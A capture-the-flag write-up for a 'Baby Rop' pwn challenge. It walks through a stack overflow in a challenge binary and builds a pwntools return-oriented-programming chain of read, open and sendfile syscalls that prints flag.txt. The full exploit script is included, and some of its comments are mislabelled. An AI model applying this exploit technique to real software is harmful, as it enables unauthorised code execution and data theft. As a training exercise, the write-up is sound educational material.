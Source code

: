 # Pwn - Baby Rop
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

We start by looking at the protections of the binary.

```sh
> checksec baby_rop
[*] './baby_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Throwing the binary into IDA, the vulnerability is straightforward.

```c
int vuln()
{
  char input[112];
  return fgets(input, 256, stdin);
}
```

If you haven't, you should read the writeup on Baby Binary. This challenge is essentially a sequel. The code and the vulnerability is the same, but the **No eXecute (NX)** protections are set. This means that we can't simply write shellcode and send it in like we did before.

In order to do get a similar outcome of reading the flag, we have to use this exploit technique known as the **Return Oriented Programming (ROP)**.

## Return Oriented Programming

From our vulnerability, we are able to overwrite the return address to redirect the flow of the program when the program attempts to return. How this works is that we put an address that we want to call at our return address, and **at the time that it calls return, the address will be at the top of the stack (pointed by RSP)** and will be popped into the instruction pointer **(RIP)**.

Previously, we would write our own assembly code that will read the flag file, however we are unable to do that now since we are unable to put our shellcode in an any executable memory trivially. There is also no single `win` function that we can call to give us the flag. As such, we will have to **reuse code snippets that already exists within the program** and chain them using a **ret** instruction in order to read the flag.

## Crafting ROP chain

### Finding Gadgets

We will write a ROP chain that does the `open("flag.txt", 0, 0)` and `sendfile(out_fd=1, in_fd=3, offset=0, count=large integer)`. What this will do is that the `open` syscall will open the `flag` file at the file descriptor `3`, and then `sendfile` will read the contents of the flag file to stdout.

Reference [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to see the syscalls that we can do and the parameters that has to be set.

> the reserved file descriptors in linux are 0, 1 and 2. 
> **stdin = 0**
> **stdout = 1**
> **stderr = 2**
> subsequently created file descriptors will be in consecutive order. thus if we open **flag**, it will have a file descriptor of 3.

In order to find our ROP gadgets in order to craft our ROP chain, we can use the `ropper` tool.

Here are some of the useful gadgets that I have found

```py
pop_rax = 0x0000000000449027 # pop rax ; ret
pop_rdx_rbx = 0x000000000047f0eb # pop rdx ; pop rbx ; ret
pop_rsi = 0x0000000000409f7e # pop rsi ; ret
pop_rdi = 0x0000000000401f0f # pop rdi ; ret
syscall = 0x0000000000414b16 # syscall ; ret
```

### Making Syscalls

#### Part 1: Read Syscall

The first syscall we want to make is to write the string `flag.txt` into a known address. If we do `vmmap` in GDB, we can see the memory pages and their corresponding permissions

```c
gef> vmmap
Start              End                Size               Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 0x0000000000000000 r-- ./baby_rop
0x0000000000401000 0x0000000000498000 0x0000000000097000 0x0000000000001000 r-x ./baby_rop  <-  $rcx, $rip
0x0000000000498000 0x00000000004c1000 0x0000000000029000 0x0000000000098000 r-- ./baby_rop
0x00000000004c1000 0x00000000004c5000 0x0000000000004000 0x00000000000c0000 r-- ./baby_rop
0x00000000004c5000 0x00000000004c8000 0x0000000000003000 0x00000000000c4000 rw- ./baby_rop  <-  $rbx, $rbp, $rsi, $r12
0x00000000004c8000 0x00000000004ef000 0x0000000000027000 0x0000000000000000 rw- [heap]<tls-th1>
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000002000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $rsp
0xffffffffff600000 0xffffffffff601000 0x0000000000001000 0x0000000000000000 --x [vsyscall]
```

As we can see `0x4c5000` is an address within our binary, and has writeable permissions. Next we will examine the memory there and find an empty-looking location to store our string. This can be **ANY** address that looks like it has nothing important. For my own purpose, I chose `0x0000004c63b0`.

Our first ROP chain does a `read(fd=0, buf=0x4c63b0, size=0x8)` syscall to write our `flag.txt` string into that address for use later on.

Following the syscall table page that I referenced earlier, we will need to set **RAX**, **RDI**, **RSI**, **RDX**.

```py
p1  = p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4c63b0)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one
```


#### Part 2: Open Syscall

```py
p2  = p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4c63b0)      # fname = 0x4c63b0 
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain
```

#### Part 3: Sendfile flag from flag.txt to stdout

```py
p3  = p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx) + p64(0)             # offset = 0
p3 += p64(syscall)                      # write flag to stdout
```

#### Final Script

```py
from pwn import *
context.binary = elf = ELF("./baby_rop")

p = process("./baby_rop")

pop_rax = 0x449027 # pop rax ; ret
pop_rdx_rbx = 0x47f0eb # pop rax ; ret
pop_rsi = 0x409f7e # pop rax ; ret
pop_rdi = 0x401f0f # pop rax ; ret
syscall = 0x414b16

#### Part 1: Read Syscall

p1 = b"A"*120
p1 += p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4c63b0)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one

#### Part 2: Open Syscall

p2 = b"A"*120
p2 += p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4c63b0)      # fname = 0x4c63b0
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain

#### Part 3: Sendfile flag from flag.txt to stdout

p3 = b"A"*120
p3 += p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx_rbx) + p64(0) * 2     # offset = 0
p3 += p64(syscall)                      # write flag to stdout

gdb.attach(p)
p.sendline(p1)
p.send(b"flag.txt")

p.sendline(p2)

p.sendline(p3)

p.interactive()
```

_note: i didn't set the last paramter to sendfile syscall, which is size. this is because as long as the size is a sufficiently large number, it does not matter. and it was too hard to find a working gadget to set r10 so i just let it be. thankfully it was a nice number of 0x80 here._
